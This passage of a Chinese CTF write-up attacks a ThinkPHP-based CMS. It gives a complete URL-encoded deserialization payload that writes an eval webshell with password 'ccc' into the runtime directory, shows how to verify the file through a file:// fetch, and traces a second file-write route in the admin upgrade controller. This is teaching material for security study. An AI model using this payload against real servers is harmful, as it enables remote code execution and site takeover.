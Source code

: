 ```php
}
```

上传

```
/index.php/index/labelmodels/get_label?tag_array[cfg]=O%3A27%3A%22think%5Cprocess%5Cpipes%5CWindows%22%3A1%3A%7Bs%3A34%3A%22%00think%5Cprocess%5Cpipes%5CWindows%00files%22%3Ba%3A1%3A%7Bi%3A0%3BO%3A17%3A%22think%5Cmodel%5CPivot%22%3A3%3A%7Bs%3A9%3A%22%00%2A%00append%22%3Ba%3A1%3A%7Bs%3A3%3A%22xxx%22%3Bs%3A8%3A%22getError%22%3B%7Ds%3A8%3A%22%00%2A%00error%22%3BO%3A27%3A%22think%5Cmodel%5Crelation%5CHasOne%22%3A3%3A%7Bs%3A15%3A%22%00%2A%00selfRelation%22%3Bi%3A0%3Bs%3A11%3A%22%00%2A%00bindAttr%22%3Ba%3A1%3A%7Bi%3A0%3Bs%3A3%3A%22xxx%22%3B%7Ds%3A8%3A%22%00%2A%00query%22%3BO%3A14%3A%22think%5Cdb%5CQuery%22%3A1%3A%7Bs%3A8%3A%22%00%2A%00model%22%3BO%3A20%3A%22think%5Cconsole%5COutput%22%3A2%3A%7Bs%3A28%3A%22%00think%5Cconsole%5COutput%00handle%22%3BO%3A30%3A%22think%5Csession%5Cdriver%5CMemcached%22%3A1%3A%7Bs%3A10%3A%22%00%2A%00handler%22%3BO%3A23%3A%22think%5Ccache%5Cdriver%5CFile%22%3A2%3A%7Bs%3A10%3A%22%00%2A%00options%22%3Ba%3A5%3A%7Bs%3A6%3A%22expire%22%3Bi%3A3600%3Bs%3A12%3A%22cache_subdir%22%3Bb%3A0%3Bs%3A6%3A%22prefix%22%3Bs%3A0%3A%22%22%3Bs%3A4%3A%22path%22%3Bs%3A135%3A%22php%3A%2F%2Ffilter%2Fconvert.iconv.utf-8.utf-7%7Cconvert.base64-decode%2Fresource%3DaaaPD9waHAgQGV2YWwoJF9QT1NUWydjY2MnXSk7Pz4g%2F..%2Fruntime%2Ftemp%2Fa.php%22%3Bs%3A13%3A%22data_compress%22%3Bb%3A0%3B%7Ds%3A6%3A%22%00%2A%00tag%22%3Bs%3A3%3A%22xxx%22%3B%7D%7Ds%3A9%3A%22%00%2A%00styles%22%3Ba%3A1%3A%7Bi%3A0%3Bs%3A7%3A%22getAttr%22%3B%7D%7D%7D%7Ds%3A6%3A%22parent%22%3Br%3A11%3B%7D%7D%7D
```

虽然会返回一个报错的页面，但是可以在`/index.php/index/image/headers?url=file:///var/www/html/runtime/temp/a.php12ac95f1498ce51d2d96a249c09c1998.php`处验证一下是否写上了🐎，文件名字是`md5('tag_'.md5($this->tag))`，连接密码是ccc 直接蚁剑

![image-20210804202819779](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20210804202819779.png)

在[雪殇的wp](http://www.snowywar.top/?p=2424)中用的是另一个，更直接的写🐎方式，下面说一下思路（大概

我们可以先尝试看看敏感函数file_put_contents()是否能利用

![image-20210804212231467](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20210804212231467.png)

在`application/admin/controller/Upgrade.php`下看到了文件写入的函数，它位于在`writelog()`中，这个函数的功能是处理post请求传入的各项参数

![image-20210804212743633](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20210804212743633.png)

这个`config('client_upgrade_edition')`捏，跟了一下  它会返回null，再往上看到`_initialize()`

![image-20210805140607537](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20210805140607537.png)

所以最后是会将$upgrade_edition写入中`/runtime/client_upgrade_edtion.php`中；而整个writelog()函数会被sysup()调用

![image-20210804213858768](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20210804213858768.png)

跟进这个sysup()和$upgrade_edtion，看是否可用+如何用

![image-20210804220616726](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20210804220616726.png)

在`template/admin_style/default/admin/upgrade/index.htm`下看到了确实存在的路由，这个的页面是在后台管理中心 - 系统功能 - 系统在线升级处，随便升一个看看

![image-20210804214721944](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20210804214721944.png)
